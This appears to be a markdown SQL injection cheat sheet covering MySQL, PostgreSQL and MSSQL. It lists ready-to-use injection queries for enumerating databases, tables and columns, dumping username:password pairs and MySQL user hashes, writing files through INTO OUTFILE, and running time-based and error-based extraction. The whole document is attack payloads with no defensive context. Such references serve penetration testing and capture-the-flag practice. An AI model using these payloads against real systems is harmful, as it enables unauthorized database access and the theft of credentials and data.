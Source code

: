 #### Dump Data
- DB name
    - `select schema_name from information_schema.schemata`
- Table name
    - `select table_name from information_schema.tables where table_schema='{db_name}'`
- Column name
    - `select column_name from information_schema.columns where table_name='{table_name}' and table_schema='{db_name}'`
- Select data
    - `select concat({username},':',{password}) from {db_name}.{table_name}`
- Mysql User and hash
    - `select concat(user,':',password) from mysql.user`
- Command dump
    - `mysqldump -u {username} -h localhost -p {dbname}  > a.sql`
        - `--all-databases`
#### File
- Write file
    - `SELECT "meow" INTO OUTFILE "/tmp/a";`
### PostgreSQL injection
- Current 
    - db
        - `current_database()`
    - schema
        - `current_schema` (without `()`)
- DB names
    - `SELECT datname FROM pg_database`
- Schema names
    - `SELECT schemaname FROM pg_tables`
- Table names
    - `SELECT tablename FROM pg_tables WHERE schemaname='{schemaname}'`
- Column name
    - `SELECT column_name FROM information_schema.columns WHERE table_name='{table_name}' and table_schema='{schema name}'`
- Select Data
    - `SELECT {column} FROM {SCHEMA}.{TABLE}`
- Conditional time delays
    - `SELECT CASE WHEN ({condition}) THEN pg_sleep(10) ELSE pg_sleep(0) END`
### MSSQL injection
#### SQL Command
- `SELECT quotename({col_name}) FROM {DB} FOR XML PATH('')`
    - Like `group_concate` in MySQL
- `SELECT TOP 1 {COL_NAME} FROM {TABLE}`
    - `SELECT TOP 1 {COL_NAME} FROM {TABLE} WHERE {COL_NAME} NOT IN ('A','B')` 
- `SELECT {COL_NAME} FROM {DB_NAME}.dbo.{TABLE}`
    - Select other DB
- `CONVERT(int,{command})`
    - Error based
- Concatenation String
    - `'aaa'+'bbb'`
- String length
    - `LEN()`
- Current DB
    - `db_name()`
#### Dump DB Name
- `DB_NAME({NUM})`
    - NUM start from 1
- `SELECT name FROM master ..sysdatabases`
- `SELECT name FROM master.dbo.sysdatabases`
- One line
    - `SELECT quotename(name) FROM master.dbo.sysdatabases FOR XML PATH('')`
